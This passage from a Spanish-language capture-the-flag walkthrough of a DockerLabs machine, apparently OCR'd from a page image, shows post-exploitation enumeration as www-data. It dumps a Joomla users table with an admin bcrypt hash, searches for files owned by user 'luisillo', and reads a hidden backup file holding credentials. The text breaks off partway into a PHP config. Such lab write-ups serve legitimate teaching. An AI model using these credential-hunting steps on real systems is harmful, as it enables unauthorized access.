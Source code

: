 ```bash
| umo54_users                   |
...
+-------------------------------+
70 rows in set (0.001 sec)
```

Sin embargo, no encontramos mas información interesante, ya que el único registro de usuario es el de `admin`, del cual ya habíamos obtenido su contraseña:

```bash
MariaDB [joomla_db]> select * from umo54_users;
+-----+-------+----------+-------------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+--------+---------------+------------+--------+------+--------------+--------------+
| id  | name  | username | email                   | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+-------+----------+-------------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+--------+---------------+------------+--------+------+--------------+--------------+
| 615 | admin | admin    | realmail@dockerlabs.com | $2y$10$f/d0sy442VzLXyaUhSmmOu.FBRYed2afncJFmYkuJwRwsJQoaGYbW |     0 |         1 | 2024-08-26 05:33:28 | 2025-10-27 18:31:17 | 0          |        | NULL          |          0 |        |      |            0 |              |
+-----+-------+----------+-------------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+--------+---------------+------------+--------+------+--------------+--------------+
1 row in set (0.001 sec)
```

Por ello, seguimos investigando en la maquina, buscando ficheros que puedan pertenecerle al usuario `luisillo`:

```bash
www-data@f558d5db82a1:/home$ find / -user luisillo 2>/dev/null
/home/luisillo
/var/backups
/var/backups/hidden
/var/backups/hidden/otro_caramelo.txt
```

Encontramos un fichero que parece contener otras credenciales, las cuales posiblemente pertenezcan al usuario `luisillo`:

```bash
www-data@f558d5db82a1:/home$ cat /var/backups/hidden/otro_caramelo.txt 


                          _____             _             _           _                                           
                         |  __ \           | |           | |         | |                                          
  ______ ______ ______   | |  | | ___   ___| | _____ _ __| |     __ _| |__  ___     ______ ______ ______ ______   
 |______|______|______|  | |  | |/ _ \ / __| |/ / _ \ '__| |    / _` | '_ \/ __|   |______|______|______|______|  
                         | |__| | (_) | (__|   <  __/ |  | |___| (_| | |_) \__ \                                  
                         |_____/ \___/ \___|_|\_\___|_|  |______\__,_|_.__/|___/                                  



Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
```